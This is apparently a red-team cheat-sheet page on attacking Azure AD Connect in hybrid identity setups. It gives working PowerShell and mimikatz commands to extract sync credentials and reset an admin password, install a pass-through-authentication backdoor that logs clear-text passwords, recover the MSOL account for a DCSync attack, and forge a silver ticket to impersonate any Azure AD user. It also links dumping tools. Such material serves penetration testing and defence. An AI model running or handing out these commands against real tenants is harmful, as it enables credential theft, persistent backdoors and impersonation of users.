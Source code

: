 # Azure AD Connect

| Active Directory                  | Azure AD          |
|-----------------------------------|-------------------|
| LDAP                              | REST API'S        |
| NTLM/Kerberos                     | OAuth/SAML/OpenID |
| Structured directory (OU tree)    | Flat structure    |
| GPO                               | No GPO's          |
| Super fine-tuned access controls  | Predefined roles  |
| Domain/forest                     | Tenant            |
| Trusts                            | Guests            |

Check if Azure AD Connect is installed : `Get-ADSyncConnector`

* For **PHS**, we can extract the credentials
    * Passwords from on-premise AD are sent to the cloud
    * Use replication via a service account created by AD Connect
* For **PTA**, we can attack the agent
    * Possible to perform DLL injection into the PTA agent and intercept authentication requests: credentials in clear-text
* For **Federation**, connect Windows Server AD to Azure AD using Federation Server (ADFS)
    * Dir-Sync : Handled by on-premise Windows Server AD, sync username/password
    * extract the certificate from ADFS server using DA


## Password Hash Synchronization

Get token for `SYNC_*` account and reset on-prem admin password

```powershell
PS > Import-Module C:\Users\Administrator\Documents\AADInternals\AADInternals.psd1
PS > Get-AADIntSyncCredentials

PS > $passwd = ConvertToSecureString 'password' -AsPlainText -Force
PS > $creds = New-Object System.Management.Automation.PSCredential ("<Username>@<TenantName>.onmicrosoft.com", $passwd)
PS > GetAADIntAccessTokenForAADGraph -Credentials $creds –SaveToCache

PS > Get-AADIntUser -UserPrincipalName onpremadmin@defcorpsecure.onmicrosoft.com | select ImmutableId
PS > Set-AADIntUserPassword -SourceAnchor "<IMMUTABLE-ID>" -Password "Password" -Verbose
```


## Pass-Through Authentication

1. Check if PTA is installed : `Get-Command -Module PassthroughAuthPSModule`
2. Install a PTA Backdoor
    ```powershell
    PS AADInternals> Install-AADIntPTASpy
    PS AADInternals> Get-AADIntPTASpyLog -DecodePasswords
    ```

## Federation



## AD Connect - Credentials

* [dirkjanm/adconnectdump](https://github.com/dirkjanm/adconnectdump) - Dump Azure AD Connect credentials for Azure AD and Active Directory

Tool | Requires code execution on target | DLL dependencies | Requires MSSQL locally | Requires python locally
--- | --- | --- | --- | ---
ADSyncDecrypt | Yes | Yes | No | No
ADSyncGather | Yes | No | No | Yes
ADSyncQuery | No (network RPC calls only) | No | Yes | Yes

* **ADSyncDecrypt**: Decrypts the credentials fully on the target host. Requires the AD Connect DLLs to be in the PATH. A similar version in PowerShell was released by Adam Chester on his blog.
* **ADSyncGather**: Queries the credentials and the encryption keys on the target host, decryption is done locally (python). No DLL dependencies.
* **ADSyncQuery**: Queries the credentials from the database that is saved locally. Requires MSSQL LocalDB to be installed. No DLL dependencies. Is called from adconnectdump.py, dumps data without executing anything on the Azure AD connect host.

Credentials in ADSync : `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`


## AD Connect - DCSync with MSOL Account 

You can perform **DCSync** attack using the MSOL account.

Requirements:
  * Compromise a server with Azure AD Connect service
  * Access to ADSyncAdmins or local Administrators groups

Use the script **azuread_decrypt_msol.ps1** from @xpn to recover the decrypted password for the MSOL account:
* `azuread_decrypt_msol.ps1`: AD Connect Sync Credential Extract POC https://gist.github.com/xpn/0dc393e944d8733e3c63023968583545
* `azuread_decrypt_msol_v2.ps1`: Updated method of dumping the MSOL service account (which allows a DCSync) used by Azure AD Connect Sync https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c

Now you can use the retrieved credentials for the MSOL Account to launch a DCSync attack.


## AD Connect - Seamless Single Sign On Silver Ticket

> Anyone who can edit properties of the AZUREADSSOACCS$ account can impersonate any user in Azure AD using Kerberos (if no MFA)

> Seamless SSO is supported by both PHS and PTA. If seamless SSO is enabled, a computer account **AZUREADSSOC** is created in the on-prem AD.

:warning: The password of the AZUREADSSOACC account never changes.

Using [https://autologon.microsoftazuread-sso.com/](https://autologon.microsoftazuread-sso.com/) to convert Kerberos tickets to SAML and JWT for Office 365 & Azure

1. NTLM password hash of the AZUREADSSOACC account, e.g. `f9969e088b2c13d93833d0ce436c76dd`. 
    ```powershell
    mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit
    ```
2. AAD logon name of the user we want to impersonate, e.g. `elrond@contoso.com`. This is typically either his userPrincipalName or mail attribute from the on-prem AD.
3. SID of the user we want to impersonate, e.g. `S-1-5-21-2121516926-2695913149-3163778339-1234`.
4. Create the Silver Ticket and inject it into Kerberos cache:
    ```powershell
    mimikatz.exe "kerberos::golden /user:elrond
    /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234
    /domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd
    /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit
    ```
5. Launch Mozilla Firefox
6. Go to about:config and set the `network.negotiate-auth.trusted-uris preference` to value `https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com`
7. Navigate to any web application that is integrated with our AAD domain. Fill in the user name, while leaving the password field empty.


## References

* [Introduction to Microsoft Entra Connect V2 - Microsoft](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-azure-ad-connect-v2)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory - Dirk-jan Mollema - 1st apr. 2019](https://www.youtube.com/watch?v=JEIR5oGCwdg)
* [Impersonating Office 365 Users With Mimikatz - Michael Grafnetter - January 15, 2017](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [Azure AD Overview - John Savill's Technical Training - Oct 7, 2014](https://www.youtube.com/watch?v=l_pnNpdxj20) 
* [Windows Azure Active Directory in plain English - Openness AtCEE - Jan 9, 2014](https://www.youtube.com/watch?v=IcSATObaQZE)
* [Azure AD connect for RedTeam - Adam Chester @xpnsec -  2019-02-18](https://blog.xpnsec.com/azuread-connect-for-redteam/)
* [Azure AD Kerberos Tickets: Pivoting to the Cloud - Edwin David - February 09, 2023](https://trustedsec.com/blog/azure-ad-kerberos-tickets-pivoting-to-the-cloud)
* [DUMPING NTHASHES FROM MICROSOFT ENTRA ID - Secureworks](https://www.secureworks.com/research/dumping-nthashes-from-microsoft-entra-id)